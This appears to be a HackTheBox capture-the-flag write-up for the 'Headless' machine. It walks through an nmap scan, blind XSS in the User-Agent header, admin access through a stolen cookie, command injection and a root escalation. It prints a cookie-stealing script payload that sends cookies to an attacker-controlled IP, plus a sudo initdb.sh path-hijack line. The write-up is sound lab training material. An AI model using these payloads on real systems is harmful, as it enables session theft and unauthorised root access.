




# HackTheBox - Headless

## Enumeration

We start with our nmap scan and only have a HTTP server on port 5000 and SSH on port 22.

```
# Nmap 7.94SVN scan initiated Tue Mar 26 12:42:31 2024 as: nmap -sCV -oN nmap/output 10.10.11.8
Nmap scan report for 10.10.11.8
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Tue, 26 Mar 2024 16:42:39 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94SVN%I=7%D=3/26%Time=6602FAFE%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\
SF:x20Python/3\.11\.2\r\nDate:\x20Tue,\x2026\x20Mar\x202024\x2016:42:39\x2
SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x202799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPDWnvB_Z
SF:fs;\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\
SF:x20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\
SF:x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-wid
SF:th,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Construct
SF:ion</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20b
SF:ody\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\
SF:x20'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20di
SF:splay:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20justif
SF:y-content:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:align-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20height:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\x20
SF:0,\x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOCTYP
SF:E\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x
SF:20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20resp
SF:onse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20vers
SF:ion\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\
SF:x20code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x
SF:20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 26 12:44:09 2024 -- 1 IP address (1 host up) scanned in 98.19 seconds

```

We navigate the webpage and see nothing particularly of interest, the webpage just indicates that it'll be released in about a month so click on the button below which takes us to `/support`

<figure><figcaption></figcaption></figure>


The support page gives us a form which we try XSS but the site seems to have some kind of sanitisation, as it blocks our requests.

<figure><figcaption></figcaption></figure>

This indicates we might be looking in the wrong place but it does reveal something interesting, the `is_admin` cookie. It looks to be a JWT token so we pass it to https://jwt.io but it isn't, although does show us that the first portion indicates "user"

<figure><figcaption></figcaption></figure>

From here we decide to get creative, although there's no XSS in the form itself maybe we can try an gain XSS from the headers. We try various headers and find that the "User-Agent" header gives us XSS!

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## User

Let's now try and get an administrative cookie. We're going to use the following payload to try and do so:

```
<script>var i=new Image(); i.src="http://$VPN_IP:8000/?cookie="+btoa(document.cookie); </script>
```

This payload will silently make a HTTP request to our VPN IP and give us the users cookie encoded in Base64, indicated by `btoa`. After crafting our payload, we start our listener and send the request. We have to wait a moment but we then get a hit on our web server!

<figure><figcaption></figcaption></figure>

We decode the payload and then look at where we can use it, finding the `/dashboard` directory.

<figure><figcaption></figcaption></figure>

We use the "Inspect Element" feature on our browser and edit our cookie so that instead of seeing an Unauthorized error, we have access to the page.

<figure><figcaption></figcaption></figure>

Refreshing the page after editing our cookie, we find we have access to an "Administrator Dashboard" that allows us to generate website health reports based on the day. We catch this request in Burp and try to perform command injection and get a POC!

<figure><figcaption></figcaption></figure>

From this point we could either enumerate the box to see if we have tools such as Netcat available or download our own bash shell and run it, both are viable options but we'll go for the former for ease.&#x20;

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

From here we stabilise our shell and get our `user.txt`

<figure><figcaption></figcaption></figure>

## Root

We check our sudo privileges which reveals we can run `/usr/bin/syscheck` as sudo, so check the strings for it which just reveals the script!

<figure><figcaption></figcaption></figure>

So the binary calls "initdb.sh" from our local directory, but there's no checks for where initdb.sh is, so if we create our own malicious shell file, we can just replace its actual purpose. We'll create a simple script that spawns us a shell as root:

```
echo -e '#!/bin/bash\nbash -p' > initdb.sh
```

We'll then make it executable with `chmod +x initdb.sh` and run the binary.

<figure><figcaption></figcaption></figure>

This gives us root, and that's the box!
